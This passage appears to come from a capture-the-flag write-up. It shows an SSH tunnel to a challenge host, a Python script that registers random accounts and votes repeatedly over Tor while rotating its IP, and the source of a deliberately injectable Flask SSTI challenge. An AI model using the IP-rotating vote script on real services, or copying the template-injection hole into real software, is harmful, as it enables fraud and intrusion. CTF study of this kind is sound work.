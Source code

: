 ```$ ssh -p 42022 -N -L 3306:127.0.0.1:3306 ethan@chal.imaginaryctf.org```
for i in range(15):
  s = get_tor_session()
  s.post("http://chal.imaginaryctf.org:1339/register", data={"user": f"{get_random_string(5)}", "pass": f"{get_random_string(5)}"})
  vote = s.get("http://chal.imaginaryctf.org:1339/vote/9926a39e3fde47ab9aee5a69c3e76858")
  print(vote.content)
  with Controller.from_port(port = 9051) as controller:
      controller.authenticate()
      controller.signal(Signal.NEWNYM)
  
  time.sleep(5)
```

Additionally you would have to install tor(obviously) and change torrc configuration file in /etc/tor/torrc:
Uncomment the following:

```
#ControlPort 9051
#CookieAuthentication 1
```


Then
```bash
sudo service tor start
pip3 install stem
```

### SSTI Golf
Source Code:
```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 49:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Still confused how to do that. Play around with different injections. Check Jinja docs, blogs, and ssti tutorials. People suggest updating config variable. Check {{config}}:

